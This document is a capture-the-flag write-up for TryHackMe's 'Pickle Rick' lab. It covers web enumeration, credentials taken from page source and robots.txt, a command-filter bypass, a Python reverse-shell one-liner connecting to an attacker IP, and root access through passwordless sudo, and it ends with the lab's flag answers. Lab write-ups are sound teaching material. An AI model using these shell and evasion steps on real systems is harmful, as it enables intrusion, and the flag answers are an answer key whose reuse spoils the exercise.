 ## TryHackme: Pickle Rick Writeup
Pickle Rick CTF is a beginner friendly room on TryHackme, Theme based on Rick and Morty requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle.

```bash
$ sudo nmap -sS -sC -sV MACHINE_IP
```
![alt text](images/nmap.png)

![alt text](images/source%20page.png)

we found a username on source page: ```R1ckRul3s```

## Gobuster scan

```bash
$ gobuster dir -u http://MACHINE_IP -w /wordlist-dir -x php,txt
```

![alt text](images/gobuster.png)

## robots.txt

![alt text](images/robots.png)

string: ```Wubbalubbadubdub```

## login to portal

![alt text](images/login%20page.png)

```sql
creds found
username: R1ckRul3s
password: Wubbalubbadubdub
```

![alt text](images/command.png)

### we have restrictions on commands we run 
We can bypass disabled commands, use ```c\at``` or ```less``` instead of ```cat``` 

```bash
c\at Sup3rS3cretPickl3Ingred.txt
mr. meeseek hair
```

![alt text](images/command%20bypassed.png)

## revshell
setup a netcat listener and put python3 Reverse shell command in panel

```bash
$ nc -nvlp 4242
```

```python3
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOUR_MACHINE_IP",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

Second Ingredient found in /home/rick Directory 

```bash
$ cat second\ ingredients
1 jerry tear
```

## Privilege escalation
user www-data can run (ALL) commands as root without password

![alt text](images/sudo.png)

```bash
www-data@ip-10-10-195-52:/home/ubuntu$ sudo /bin/bash -p
root@ip-10-10-195-52:/home/ubuntu# whoami
root
```
![alt text](images/root.png)

we are root now 

```bash
root@ip-10-10-203-150:~# cat 3rd.txt
3rd ingredients: fleeb juice
```

## Ingredients
First Ingredient: ```mr. meeseek hair```

Second Ingredient: ```1 jerry tear```

Third Ingredient: ```fleeb juice```

